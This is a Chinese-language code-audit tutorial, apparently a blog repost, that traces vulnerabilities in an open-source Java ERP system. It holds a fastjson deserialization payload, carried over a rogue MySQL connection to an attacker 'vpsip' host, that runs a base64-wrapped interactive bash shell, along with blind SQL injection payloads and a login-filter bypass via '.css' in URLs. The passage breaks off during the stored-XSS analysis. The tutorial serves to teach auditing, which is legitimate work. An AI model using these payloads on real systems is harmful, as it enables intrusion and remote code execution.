深入学习 Java 代码审计技巧—详细剖析某 erp 漏洞

- - -

# 深入学习 Java 代码审计技巧—详细剖析某 erp 漏洞

## 简介

对于 Java 代码审计，主要的审计步骤如下：

-   确定项目技术框架、项目结构
-   环境搭建
-   配置文件的分析：如 pom.xml、web.xml 等，特别是 pom.xml，可以从组件中寻找漏洞
-   Filter 分析：Filter 是重要的组成部分，提前分析有利于把握项目对请求的过滤，在后续漏洞利用时能够综合分析
-   路由分析：部分项目请求路径与对用的 controller 方法不对应，提前通过抓包调试分析，了解前端请求到后端方法的对应关系，便于在后续分析中更快定位代码
-   漏洞探测
    -   探测之前可借用工具辅助分析，如 codeql、fortify、Yakit、BP 等
    -   SQL 注入分析、RCE 分析可先从代码入手，通过关键 API 及特征关键字来进行逆向数据流分析，从 sink 到 source，判断参数是否可控
    -   XSS、文件上传等漏洞适合正向数据流分析，由于存储型 XSS 数据流断裂，从代码层面不好将两条数据流联系起来，可以通过前端界面的测试，找到插入口和显示处性质一样的点，在通过后端代码分析，构造出可利用的 payload
    -   逻辑漏洞这类也是从前端入手比较好处理，后端代码庞大难以定位

个人观点，仅供参考

## 文件结构分析

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201232812-82abb8ec-c116-1.png)

在审计项目之前，先了解项目的结构

-   src/main/java：存放java核心代码，里面包含controller、service、filter、dao等，还包括主函数ErpApplication
-   src/main/resources：包含mybatis配置文件，properties等
-   erp\_web：里面存放的是该网站的 html、css 及 js 文件
-   docs：包含数据库文件及文档文件等
-   test：项目的测试目录
-   pom.xml：项目的依赖配置

## 环境搭建

**数据库创建**：

```plain
mysql -u root -h 127.0.0.1 -p
create database jsh_erp;
use jsh_erp;
source D:/audit-code/java/jshERP-2.3/docs/jsh_erp.sql
```

**项目启动**：

application.properties 文件中配置数据库连接信息及 server 和 port，启动主类 ErpApplication.java 即可

## 配置文件分析

在对项目开始审计之前，需要先了解其配置文件

-   application.properties：Spring 的全局配置文件，里面包含 server 的 ip 及 port，同时还有数据库连接信息，在环境搭建时可修改
    
-   pom.xml：项目的组件依赖，审计开始前先了解依赖的组件并判断是否存在对应组件版本的漏洞，这也可以是漏洞挖掘的第一步
    
    **依赖 fastjson**
    
    ```plain
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.55</version>
    </dependency>
    ```
    
    1.2.55 版本存在反序列化漏洞，现在需要寻找利用点，全局搜索`parseObject`方法
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201232832-8ed53be8-c116-1.png)

猜测 search 可能可控，进入分析

```plain
public static String getInfo(String search, String key){
      String value = "";
      if(search!=null) {
          // 这里
          JSONObject obj = JSONObject.parseObject(search);
          value = obj.getString(key);
          if(value.equals("")) {
              value = null;
          }
      }
      return value;
  }
```

查看 getInfo 函数的调用处，比较多，一个一个筛选，这里选择 UserComponent.java 中的 getUserList 方法进行分析

```plain
private List<?> getUserList(Map<String, String> map)throws Exception {
      String search = map.get(Constants.SEARCH);
      // 这里
      String userName = StringUtil.getInfo(search, "userName");
      String loginName = StringUtil.getInfo(search, "loginName");
      String order = QueryUtils.order(map);
      String filter = QueryUtils.filter(map);
      return userService.select(userName, loginName, QueryUtils.offset(map), QueryUtils.rows(map));
  }
```

逐层向上调用分析，可以得知在 ResourceController.java 中调用 select，即 search 参数可控

```plain
@GetMapping(value = "/{apiName}/list")
  public String getList(@PathVariable("apiName") String apiName,
                        @RequestParam(value = Constants.PAGE_SIZE, required = false) Integer pageSize,
                        @RequestParam(value = Constants.CURRENT_PAGE, required = false) Integer currentPage,
                        @RequestParam(value = Constants.SEARCH, required = false) String search,
                        HttpServletRequest request)throws Exception {
      Map<String, String> parameterMap = ParamUtils.requestToMap(request);
      parameterMap.put(Constants.SEARCH, search);
      PageQueryInfo queryInfo = new PageQueryInfo();
      Map<String, Object> objectMap = new HashMap<String, Object>();
      if (pageSize != null && pageSize <= 0) {
          pageSize = 10;
      }
      String offset = ParamUtils.getPageOffset(currentPage, pageSize);
      if (StringUtil.isNotEmpty(offset)) {
          parameterMap.put(Constants.OFFSET, offset);
      }

      // 这里
      List<?> list = configResourceManager.select(apiName, parameterMap);
      objectMap.put("page", queryInfo);
      if (list == null) {
          queryInfo.setRows(new ArrayList<Object>());
          queryInfo.setTotal(BusinessConstants.DEFAULT_LIST_NULL_NUMBER);
          return returnJson(objectMap, "查找不到数据", ErpInfo.OK.code);
      }
      queryInfo.setRows(list);
      queryInfo.setTotal(configResourceManager.counts(apiName, parameterMap));
      return returnJson(objectMap, ErpInfo.OK.name, ErpInfo.OK.code);
  }
```

根据路由分析，这里的 apiName 为 user，这样能够寻找到 UserComponent 里的 select 方法

**测试**

抓包设置 payload

```plain
{"@type":"java.net.Inet4Address","val":"xxxxxx"}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201232916-a8cd8460-c116-1.png)

收到 DNS 请求，证明漏洞存在

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201232940-b756f214-c116-1.png)

接下来可以进行 LDAP 注入，但是需要确定 AutoType 是否开启

可以通过以下代码开启

```plain
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

但是在实际测试的过程中，没有开启可以通过 mysql 服务来打

payload：

```plain
{
      "@type": "java.lang.AutoCloseable",
      "@type": "com.mysql.jdbc.JDBC4Connection",
      "hostToConnectTo": "vpsip",
      "portToConnectTo": 3306,
      "info": {
          "user": "yso_CommonsCollections6_bash -c {echo,xxxxx}|{base64,-d}|{bash,-i}",
          "password": "pass",
          "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
          "autoDeserialize": "true",
          "NUM_HOSTS": "1"
      },
      "databaseToConnectTo": "dbname",
      "url": ""
  }
```

参考：[蓝帽杯 2022 决赛 - 赌怪 writeup - KingBridge - 博客园 (cnblogs.com)](https://www.cnblogs.com/kingbridge/articles/16720318.html)

这里就不继续测试，大致原理是这样，如果不懂 fastjson，请参考[Java 安全之 FastJson 漏洞分析与利用 | DiliLearngent's Blog](https://dililearngent.github.io/2023/02/10/fastjson-security/)

**依赖 log4j**

```plain
<dependency>
      <groupId>org.apache.logging.log4j</groupId>
      <artifactId>log4j-to-slf4j</artifactId>
      <version>2.10.0</version>
      <scope>compile</scope>
  </dependency>
```

无相关漏洞，可以通过官方文档或者 maven 仓库中查看：[Maven Repository: org.apache.logging.log4j » log4j-to-slf4j (mvnrepository.com)](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-to-slf4j)

-   还有一些配置文件这里没有涉及到就不提了

## Filter 分析

在项目中只存在一个 Filter 类，即 LogCostFilter，观察其 doFilter 方法

```plain
@Override
public void doFilter(ServletRequest request, ServletResponse response,
                     FilterChain chain) throws IOException, ServletException {
    HttpServletRequest servletRequest = (HttpServletRequest) request;
    HttpServletResponse servletResponse = (HttpServletResponse) response;
    String requestUrl = servletRequest.getRequestURI();
    //具体，比如：处理若用户未登录，则跳转到登录页
    Object userInfo = servletRequest.getSession().getAttribute("user");
    if(userInfo!=null) { //如果已登录，不阻止
        chain.doFilter(request, response);
        return;
    }
    if (requestUrl != null && (requestUrl.contains("/doc.html") ||
                               requestUrl.contains("/register.html") || requestUrl.contains("/login.html"))) {
        chain.doFilter(request, response);
        return;
    }
    // 使用 ignoredList 中内容进行认证
    if (verify(ignoredList, requestUrl)) {
        chain.doFilter(servletRequest, response);
        return;
    }
    // 白名单过滤
    if (null != allowUrls && allowUrls.length > 0) {
        for (String url : allowUrls) {
            if (requestUrl.startsWith(url)) {
                chain.doFilter(request, response);
                return;
            }
        }
    }
    servletResponse.sendRedirect("/login.html");
}
```

根据对 init 方法的分析可知，ignoredUrls 为\[.css，.js，.jpg，.png，.gif，.ico\]，allowUrls 为\[/user/login，/user/registerUser，/v2/api-docs\]

先看 verify 方法

```plain
private static String regexPrefix = "^.*";
private static String regexSuffix = ".*$";

private static boolean verify(List<String> ignoredList, String url) {
    for (String regex : ignoredList) {
        Pattern pattern = Pattern.compile(regexPrefix + regex + regexSuffix);
        Matcher matcher = pattern.matcher(url);
        if (matcher.matches()) {
            return true;
        }
    }
    return false;
}
```

将 ignoredUrls 中的逐个元素拼接成正则表达式后与当前 url 进行匹配，匹配成功即返回 true，例如第一个元素形成的正则表达式为`^.*.css.*$`，即只要包含 ignoredUrls 中的任意一个元素即可在不登录的情况下访问

在白名单过滤中，只要请求 url 中以/user/login、/user/registerUser、/v2/api-docs 开头即不需要登陆即可访问

## 路由分析

大部分请求路径都包含在 Controller 文件夹中，这里有一个特殊的类，即 ResourceController.java，它的请求路径中包含{apiName}，代码中使用 CommonQueryManager.java 类对其进行处理，以 select 方法为例：

```plain
public List<?> select(String apiName, Map<String, String> parameterMap)throws Exception {
    if (StringUtil.isNotEmpty(apiName)) {
        return container.getCommonQuery(apiName).select(parameterMap);
    }
    return new ArrayList<Object>();
}
public ICommonQuery getCommonQuery(String apiName) {
    return configComponentMap.get(apiName);
}
```

configComponentMap 存放的是 Component 类，即如图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233008-c838f500-c116-1.png)

具体可通过调试得到，这样通过 apiname（首字母大写）+ Component 即得到处理的对应类，从该类中选择 select 方法

## SQL 注入

### 审计关键点

-   重点关注创建查询的函数如 `createQuery()`、`createSQLQuery()`、`createNativeQuery()`。
-   定位 SQL 语句上下文，查看是否有参数直接拼接，是否有对模糊查询关键字的过滤。
-   是否使用预编译技术，预编译是否完整，关键函数定位`setObject()`、`setInt()`、`setString()`、`setSQLXML()`关联上下文搜索`set*`开头的函数。
-   Mybatis 中搜索${}，因为对于 like 模糊查询、order by 排序、范围查询 in、动态表名/列名，没法使用预编译，只能拼接，所以还是需要手工防注入，此时可查看相关逻辑是否正确。
-   JPA 搜索`JpaSort.unsafe()`，查看是否用实体之外的字段对查询结果排序，进行了 SQL 的拼接。以及查看`EntityManager`的使用，也可能存在拼接 SQL 的情况。

### 注入点 1

#### 分析

根据 SQL 注入代码审计经验，Mybatis 框架下一般寻找 mapper 下的 xml 文件中的`${}`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233022-d09f78b8-c116-1.png)

挺多，先看这两个，对应在 UserMapperEx.xml 文件中，查询如下

```plain
<select id="countsByUser" resultType="java.lang.Long">
    select count(user.id)
    FROM jsh_user user
    left join jsh_user_business ub on user.id=ub.key_id
    left join jsh_orga_user_rel rel on user.id=rel.user_id and ifnull(rel.delete_flag,'0') !='1'
    left join jsh_organization org on rel.orga_id=org.id and  ifnull(org.org_stcd,'0') !='5'
    where 1=1
    and ifnull(user.status,'0') not in('1','2')
    <if test="userName != null">
        and user.username like '%${userName}%'
    </if>
    <if test="loginName != null">
        and user.login_name like '%${loginName}%'
    </if>
</select>
```

一看 like，只要这里两个参数可控，另外这里要查询的是一个数字，无其他可用的返回参数，即可能存在 SQL 注入，优先考虑时间盲注。找到对应的 Mappper，即 UserMapperEx

```plain
Long countsByUser(
    @Param("userName") String userName,
    @Param("loginName") String loginName);
```

继续网上，找调用此方法的 service，Ctrl+B 找到上层 UserService

```plain
public Long countUser(String userName, String loginName)throws Exception {
    Long result=null;
    try{
        // 这里
        result=userMapperEx.countsByUser(userName, loginName);
    }catch(Exception e){
        JshException.readFail(logger, e);
    }
    return result;
}
```

继续 Ctrl+B，这里有两个调用处，由于第一个 UserController 中调用的 countUser 两个参数均为 null，暂时忽略，来到 UserComponent

```plain
@Override
public Long counts(Map<String, String> map)throws Exception {
    String search = map.get(Constants.SEARCH);
    String userName = StringUtil.getInfo(search, "userName");
    String loginName = StringUtil.getInfo(search, "loginName");
    // 这里
    return userService.countUser(userName, loginName);
}
```

还是没有到 Controller 层，继续 Ctrl+B，来到 CommonQueryManager

```plain
/**
     * 计数
     * @param apiName
     * @param parameterMap
     * @return
     */
public Long counts(String apiName, Map<String, String> parameterMap)throws Exception {
    if (StringUtil.isNotEmpty(apiName)) {
        // 这里
        return container.getCommonQuery(apiName).counts(parameterMap);
    }
    return BusinessConstants.DEFAULT_LIST_NULL_NUMBER;
}
```

继续往上，终于来到 ResourceController

```plain
@GetMapping(value = "/{apiName}/list")
public String getList(@PathVariable("apiName") String apiName,
                      @RequestParam(value = Constants.PAGE_SIZE, required = false) Integer pageSize,
                      @RequestParam(value = Constants.CURRENT_PAGE, required = false) Integer currentPage,
                      @RequestParam(value = Constants.SEARCH, required = false) String search,
                      HttpServletRequest request)throws Exception {

    // search参数放入map
    Map<String, String> parameterMap = ParamUtils.requestToMap(request);
    parameterMap.put(Constants.SEARCH, search);
    PageQueryInfo queryInfo = new PageQueryInfo();
    Map<String, Object> objectMap = new HashMap<String, Object>();
    if (pageSize != null && pageSize <= 0) {
        pageSize = 10;
    }
    String offset = ParamUtils.getPageOffset(currentPage, pageSize);
    if (StringUtil.isNotEmpty(offset)) {
        parameterMap.put(Constants.OFFSET, offset);
    }
    List<?> list = configResourceManager.select(apiName, parameterMap);
    objectMap.put("page", queryInfo);
    if (list == null) {
        queryInfo.setRows(new ArrayList<Object>());
        queryInfo.setTotal(BusinessConstants.DEFAULT_LIST_NULL_NUMBER);
        return returnJson(objectMap, "查找不到数据", ErpInfo.OK.code);
    }
    queryInfo.setRows(list);
    // 这里
    queryInfo.setTotal(configResourceManager.counts(apiName, parameterMap));
    return returnJson(objectMap, ErpInfo.OK.name, ErpInfo.OK.code);
}
```

这里包含一个路径变量 apiName，以 apiName 为名找对应的处理包，对应的包中存在 Component 类，根据上面分析，从 UserComponent 中来的，对应的是 user 包，因此 apiName 为 user

另外根据 UserComponent 类中的 counts 方法，在 map 中寻找 userName 和 loginName，因此 search 参数包含 userName 和 loginName

正向数据链：/user/list——>ResourceController.getList——>CommonQueryManager.counts——>UserComponent.counts——>UserService.countUser——>UserMapperEx.countsByUser——>UserMapperEx.xml 中 id 为 countsByUser 的查询

同样的道理，在这个 getList 方法中，还有一个 select 查询，对应的数据链：

/user/list——>ResourceController.getList——>CommonQueryManager.select——>UserComponent.select——>UserComponent.getUserList——>UserService.select——>UserMapperEx.selectByConditionUser——>UserMapperEx.xml中id为selectByConditionUser的查询

```plain
<select id="selectByConditionUser" parameterType="com.jsh.erp.datasource.entities.UserExample" resultMap="ResultMapEx">
    select user.id, user.username, user.login_name, user.position, user.email, user.phonenum,
    user.description, user.remark,user.isystem,org.id as orgaId,user.tenant_id,org.org_abr,
    rel.user_blng_orga_dspl_seq,rel.id as orgaUserRelId,
    (select r.name from jsh_user_business ub
    inner join jsh_role r on ub.value=concat("[",r.id,"]") and ifnull(r.delete_flag,'0') !='1'
    where ub.type='UserRole' and ub.key_id=user.id limit 0,1) roleName
    FROM jsh_user user
    left join jsh_orga_user_rel rel on user.id=rel.user_id and ifnull(rel.delete_flag,'0') !='1'
    left join jsh_organization org on rel.orga_id=org.id and  ifnull(org.org_stcd,'0') !='5'
    where 1=1
    and ifnull(user.status,'0') not in('1','2')
    <if test="userName != null">
        and user.username like '%${userName}%'
    </if>
    <if test="loginName != null">
        and user.login_name like '%${loginName}%'
    </if>
    order by rel.user_blng_orga_dspl_seq,user.id desc
    <if test="offset != null and rows != null">
        limit #{offset},#{rows}
    </if>
</select>
```

#### 测试

触发界面

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233046-debeea6e-c116-1.png)

抓包

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233059-e6756198-c116-1.png)

这里的 search 参数包含了 userName 和 loginName 参数，后端的 SQL 语句如下：

ID: com.jsh.erp.datasource.mappers.UserMapperEx.countsByUser

```plain
SELECT count(user.id) FROM jsh_user user LEFT JOIN jsh_user_business ub ON user.id = ub.key_id LEFT JOIN jsh_orga_user_rel rel ON rel.tenant_id = 63 AND user.id = rel.user_id AND ifnull(rel.delete_flag, '0') != '1' LEFT JOIN jsh_organization org ON org.tenant_id = 63 AND rel.orga_id = org.id AND ifnull(org.org_stcd, '0') != '5' WHERE user.tenant_id = 63 AND 1 = 1 AND ifnull(user.status, '0') NOT IN ('1', '2') AND user.login_name LIKE '%jsh%'
```

按照该 SQL 语句在 login\_name 构造布尔盲注的 payload：`%'/**/And/**/SleeP(3)--`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233113-ee9c6600-c116-1.png)

根据响应时间成功得到此处存在 SQL 注入

对应的 SQL 语句：

```plain
SELECT count(user.id) FROM jsh_user user LEFT JOIN jsh_user_business ub ON user.id = ub.key_id LEFT JOIN jsh_orga_user_rel rel ON rel.tenant_id = 63 AND user.id = rel.user_id AND ifnull(rel.delete_flag, '0') != '1' LEFT JOIN jsh_organization org ON org.tenant_id = 63 AND rel.orga_id = org.id AND ifnull(org.org_stcd, '0') != '5' WHERE user.tenant_id = 63 AND 1 = 1 AND ifnull(user.status, '0') NOT IN ('1', '2') AND user.username LIKE '%%' AND SleeP(3)
```

接下来使用 sqlmap 跑就 ok 了，同样在 userName 参数也是一样的问题

### 注入点 2

#### 分析

关注一个没有 like 匹配的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233128-f7b3d6d8-c116-1.png)

关注红框这个，找到 MsgMapperEx.xml 文件，SQL 查询如下

```plain
<select id="getMsgCountByStatus" resultType="java.lang.Long">
    SELECT
    COUNT(id)
    FROM jsh_msg
    WHERE 1=1
    and ifnull(delete_Flag,'0') !='1'
    <if test="status != null">
        and status = '${status}'
    </if>
</select>
```

这里的 status 参数直接经过拼接，因此可能存在 SQL 注入，找对应的 Mapper，MsgMapperEx.java 的文件中：

```plain
Long getMsgCountByStatus(
    @Param("status") String status,
    @Param("userId") Long userId);
```

Ctrl+B 找被调用处，应该到 Service 层，即 MsgService.java 文件中：

```plain
public Long getMsgCountByStatus(String status)throws Exception {
    Long result=null;
    try{
        User userInfo=userService.getCurrentUser();
        // 这里
        result=msgMapperEx.getMsgCountByStatus(status, userInfo.getId());
    }catch(Exception e){
        logger.error("异常码[{}],异常提示[{}],异常[{}]",
                     ExceptionConstants.DATA_READ_FAIL_CODE, ExceptionConstants.DATA_READ_FAIL_MSG,e);
        throw new BusinessRunTimeException(ExceptionConstants.DATA_READ_FAIL_CODE,
                                           ExceptionConstants.DATA_READ_FAIL_MSG);
    }
    return result;
}
```

继续往上到 Controller 层，来到 MsgController.java

```plain
@GetMapping("/getMsgCountByStatus")
public BaseResponseInfo getMsgCountByStatus(@RequestParam("status") String status,
                                            HttpServletRequest request)throws Exception {
    BaseResponseInfo res = new BaseResponseInfo();
    try {
        Map<String, Long> map = new HashMap<String, Long>();
        // 这里
        Long count = msgService.getMsgCountByStatus(status);
        map.put("count", count);
        res.code = 200;
        res.data = map;
    } catch(Exception e){
        e.printStackTrace();
        res.code = 500;
        res.data = "获取数据失败";
    }
    return res;
}
```

首先传入的 status 在本方法中没有进行任何过滤，同时根据前面分析，filter 中也没有进行过滤，另外这里存在 3 种返回状态：

-   查询语句报错，返回 500，即获取数据失败
-   根据 SQL 语句分析，查询得到的 count 为 0，即拼接的条件为 false
-   查询结果 count 不为 0，即 where 的条件为 true，默认没有拼接条件

根据分析，这里可以利用布尔盲注，前提需要在消息列表至少插入一条数据，当然时间注入也可以

正向数据链：/msg/getMsgCountByStatus——>MsgController.getMsgCountByStatus——>MsgService.getMsgCountByStatus——>MsgMapperEx.getMsgCountByStatus——>MsgMapperEx.xml 中 id 为 getMsgCountByStatus

#### 测试

触发界面：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233149-045bf992-c117-1.png)

抓包：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233201-0b81979a-c117-1.png)

后台查询语句：

```plain
SELECT COUNT(id) FROM jsh_msg WHERE jsh_msg.tenant_id = 63 AND 1 = 1 AND ifnull(delete_Flag, '0') != '1' AND status = '1'
```

拼接 payload：`1'/**/and/**/1=1--`、`1'/**/and/**/1=2--`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233214-1322dffe-c117-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233228-1bc86566-c117-1.png)

后台 SQL 语句：

```plain
SELECT COUNT(id) FROM jsh_msg WHERE jsh_msg.tenant_id = 63 AND 1 = 1 AND ifnull(delete_Flag, '0') != '1' AND status = '1' AND 1 = 1
SELECT COUNT(id) FROM jsh_msg WHERE jsh_msg.tenant_id = 63 AND 1 = 1 AND ifnull(delete_Flag, '0') != '1' AND status = '1' AND 1 = 2
```

根据后面的条件是否成立返回的结果不一致，故存在布尔盲注，后面只需要使用 sqlmap 跑一遍即可

### 其他注入点

还存在很多注入点，上面只描述了时间盲注和布尔盲注两种类型，同时体现了`like ${}`和`${}`，正常`${}`比较少，一般会使用`#{}`，重点 like、order by、in 等关键字

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233243-2490012c-c117-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233255-2b8e1b30-c117-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233308-33745a4e-c117-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201233321-3b460e7a-c117-1.png)

还有很多，不一一列举，可以使用 Yakit 进行扫描

## XSS 漏洞

### 审计关键点

关键字：

```plain
<%=
${
<c:out
<c:if
<c:forEach
ModelAndView
ModelMap
Model
request.getParameter
request.setAttribute
```

在 jsp 文件中，使用`<c:out>`标签是直接对代码进行输出而不当成 js 代码执行

在使用 thymeleaf 模板进行渲染时，模板自带有字符转义的功能

-   th:text 进行文本替换 不会解析 html
-   th:utext 进行文本替换 会解析 html

以下例子中没有使用渲染模板，最好从前端界面入手，寻找可能的插入点，然后对后端代码进行分析

### 漏洞点 1

#### 分析

存储型 XSS 一般分为两个部分：

-   将攻击向量通过某个接口存入
-   将数据库中的攻击向量通过某个接口显示在页面中

**存入点分析**：

根据/supplier/update 找到对应的 Controller，在 ResourceController.java 中

```plain
@PostMapping(value = "/{apiName}/update", produces = {"application/javascript", "application/json"})
public String updateResource(@PathVariable("apiName") String apiName,
                             @RequestParam("info") String beanJson,
                             @RequestParam("id") Long id, HttpServletRequest request)throws Exception {
    Map<String, Object> objectMap = new HashMap<String, Object>();
    // 这里
    int update = configResourceManager.update(apiName, beanJson, id, request);
    if(update > 0) {
        return returnJson(objectMap, ErpInfo.OK.name, ErpInfo.OK.code);
    } else if(update == -1) {
        return returnJson(objectMap, ErpInfo.TEST_USER.name, ErpInfo.TEST_USER.code);
    } else {
        return returnJson(objectMap, ErpInfo.ERROR.name, ErpInfo.ERROR.code);
    }
}
```

找到对应的处理方法

```plain
@Transactional(value = "transactionManager", rollbackFor = Exception.class)
public int update(String apiName, String beanJson, Long id, HttpServletRequest request)throws Exception {
    if (StringUtil.isNotEmpty(apiName)) {
        return container.getCommonQuery(apiName).update(beanJson, id, request);
    }
    return 0;
}
```

还是一样，找到 SupplierComponent.java 类中的 update 方法

```plain
@Override
public int update(String beanJson, Long id, HttpServletRequest request)throws Exception {
    return supplierService.updateSupplier(beanJson, id, request);
}
```

来到 SupplierService.java 层

```plain
@Transactional(value = "transactionManager", rollbackFor = Exception.class)
public int updateSupplier(String beanJson, Long id, HttpServletRequest request)throws Exception {
    Supplier supplier = JSONObject.parseObject(beanJson, Supplier.class);
    if(supplier.getBeginNeedPay() == null) {
        supplier.setBeginNeedPay(BigDecimal.ZERO);
    }
    if(supplier.getBeginNeedGet() == null) {
        supplier.setBeginNeedGet(BigDecimal.ZERO);
    }
    supplier.setId(id);
    int result=0;
    try{
        // 这里
        result=supplierMapper.updateByPrimaryKeySelective(supplier);
        logService.insertLog("商家",
                             new StringBuffer(BusinessConstants.LOG_OPERATION_TYPE_EDIT).append(supplier.getSupplier()).toString(), request);
    }catch(Exception e){
        JshException.writeFail(logger, e);
    }
    return result;
}
```

成功找到对应的 Mapper，即 SupplierMapper，并且操作 id 为 updateByPrimaryKeySelective，在相应的 xml 文件中找到更新的 sql 语句

```plain
<update id="updateByPrimaryKeySelective" parameterType="com.jsh.erp.datasource.entities.Supplier">
    update jsh_supplier
    <set>
        <if test="supplier != null">
            supplier = #{supplier,jdbcType=VARCHAR},
        </if>
        <if test="contacts != null">
            contacts = #{contacts,jdbcType=VARCHAR},
        </if>
        <if test="phoneNum != null">
            phone_num = #{phoneNum,jdbcType=VARCHAR},
        </if>
        <if test="email != null">
            email = #{email,jdbcType=VARCHAR},
        </if>
        <if test="description != null">
            description = #{description,jdbcType=VARCHAR},
        </if>
        <if test="isystem != null">
            isystem = #{isystem,jdbcType=TINYINT},
        </if>
        <if test="type != null">
            type = #{type,jdbcType=VARCHAR},
        </if>
        <if test="enabled != null">
            enabled = #{enabled,jdbcType=BIT},
        </if>
        <if test="advanceIn != null">
            advance_in = #{advanceIn,jdbcType=DECIMAL},
        </if>
        <if test="beginNeedGet != null">
            begin_need_get = #{beginNeedGet,jdbcType=DECIMAL},
        </if>
        <if test="beginNeedPay != null">
            begin_need_pay = #{beginNeedPay,jdbcType=DECIMAL},
        </if>
        <if test="allNeedGet != null">
            all_need_get = #{allNeedGet,jdbcType=DECIMAL},
        </if>
        <if test="allNeedPay != null">
            all_need_pay = #{allNeedPay,jdbcType=DECIMAL},
        </if>
        <if test="fax != null">
            fax = #{fax,jdbcType=VARCHAR},
        </if>
        <if test="telephone != null">
            telephone = #{telephone,jdbcType=VARCHAR},
        </if>
        <if test="address != null">
            address = #{address,jdbcType=VARCHAR},
        </if>
        <if test="taxNum != null">
            tax_num = #{taxNum,jdbcType=VARCHAR},
        </if>
        <if test="bankName != null">
            bank_name = #{bankName,jdbcType=VARCHAR},
        </if>
        <if test="accountNumber != null">
            account_number = #{accountNumber,jdbcType=VARCHAR},
        </if>
        <if test="taxRate != null">
            tax_rate = #{taxRate,jdbcType=DECIMAL},
        </if>
        <if test="tenantId != null">
            tenant_id = #{tenantId,jdbcType=BIGINT},
        </if>
        <if test="deleteFlag != null">
            delete_flag = #{deleteFlag,jdbcType=VARCHAR},
        </if>
    </set>
    where id = #{id,jdbcType=BIGINT}
</update>
```

这整条数据流就是将攻击向量存入数据库的过程，中间的方法为进行任何的过滤，filter 层也没有对输入进行过滤。

现在需要触发 xss，只需要将相关参数显示在界面中即可。

**读取点分析**：

读取 supplier 还有另一个 api，根据前端观察可以知道为/supplier/list

同样在

```plain
@GetMapping(value = "/{apiName}/list")
public String getList(@PathVariable("apiName") String apiName,
                      @RequestParam(value = Constants.PAGE_SIZE, required = false) Integer pageSize,
                      @RequestParam(value = Constants.CURRENT_PAGE, required = false) Integer currentPage,
                      @RequestParam(value = Constants.SEARCH, required = false) String search,
                      HttpServletRequest request)throws Exception {
    Map<String, String> parameterMap = ParamUtils.requestToMap(request);
    parameterMap.put(Constants.SEARCH, search);
    PageQueryInfo queryInfo = new PageQueryInfo();
    Map<String, Object> objectMap = new HashMap<String, Object>();
    if (pageSize != null && pageSize <= 0) {
        pageSize = 10;
    }
    String offset = ParamUtils.getPageOffset(currentPage, pageSize);
    if (StringUtil.isNotEmpty(offset)) {
        parameterMap.put(Constants.OFFSET, offset);
    }
    // 这里
    List<?> list = configResourceManager.select(apiName, parameterMap);
    // 会将查询到的参数放在 map 的 page 参数中
    objectMap.put("page", queryInfo);
    if (list == null) {
        queryInfo.setRows(new ArrayList<Object>());
        queryInfo.setTotal(BusinessConstants.DEFAULT_LIST_NULL_NUMBER);
        return returnJson(objectMap, "查找不到数据", ErpInfo.OK.code);
    }
    queryInfo.setRows(list);
    queryInfo.setTotal(configResourceManager.counts(apiName, parameterMap));
    return returnJson(objectMap, ErpInfo.OK.name, ErpInfo.OK.code);
}
```

和上述分析过程一致，得到一下查询语句

```plain
<select id="selectByConditionSupplier" parameterType="com.jsh.erp.datasource.entities.SupplierExample" resultMap="com.jsh.erp.datasource.mappers.SupplierMapper.BaseResultMap">
    select *
    FROM jsh_supplier
    where 1=1
    <if test="supplier != null">
        and supplier like '%${supplier}%'
    </if>
    <if test="type != null">
        and type='${type}'
    </if>
    <if test="phonenum != null">
        and phone_num like '%${phonenum}%'
    </if>
    <if test="telephone != null">
        and telephone like '%${telephone}%'
    </if>
    <if test="description != null">
        and description like '%${description}%'
    </if>
    and ifnull(delete_flag,'0') !='1'
    order by id desc
    <if test="offset != null and rows != null">
        limit #{offset},#{rows}
    </if>
</select>
```

这将数据库中的全部字段结果返回，最后封装在 json 的 page 参数中

现在需要寻找将这些结果渲染到前端页面的 html 文件，使用 ajax 必定会对响应的路由发起请求，搜索/supplier/list

在 supplier.js 文件中

```plain
function showSupplierDetails(pageNo,pageSize) {
    var supplier = $.trim($("#searchSupplier").val());
    var phonenum = $.trim($("#searchPhonenum").val());
    var telephone = $.trim($("#searchTelephone").val());
    var description = $.trim($("#searchDesc").val());
    $.ajax({
        type:"get",
        url: "/supplier/list",
        dataType: "json",
        data: ({
            search: JSON.stringify({
                supplier: supplier,
                type: listType,
                phonenum: phonenum,
                telephone: telephone,
                description: description
            }),
            currentPage: pageNo,
            pageSize: pageSize
        }),
        success: function (res) {
            if(res && res.code === 200){
                if(res.data && res.data.page) {
                    $("#tableData").datagrid('loadData', res.data.page);
                }
            }
        },
        //此处添加错误处理
        error:function() {
            $.messager.alert('查询提示','查询数据后台异常，请稍后再试！','error');
            return;
        }
    });
}
```

这里对相应的 url 发起请求，并将其渲染至 id 为 tableData 的标签中

寻找调用 showSupplierDetails 方法的地方，与之匹配的是同文件的 initTableData 方法，在该方法中，只显示了如下参数

```plain
columns:[[
    { field: 'id',width:35,align:"center",checkbox:true},
    { title: '操作',field: 'op',align:"center",width:60,
     formatter:function(value,rec,index) {
         var str = '';
         str += '&nbsp;&nbsp;&nbsp;';
         if(isShowOpFun()) {
             str += '';
         }
         return str;
     }
    },
    { title: '名称',field: 'supplier',width:150},
    { title: '联系人', field: 'contacts',width:50,align:"center"},
    { title: '手机号码', field: 'telephone',width:100,align:"center"},
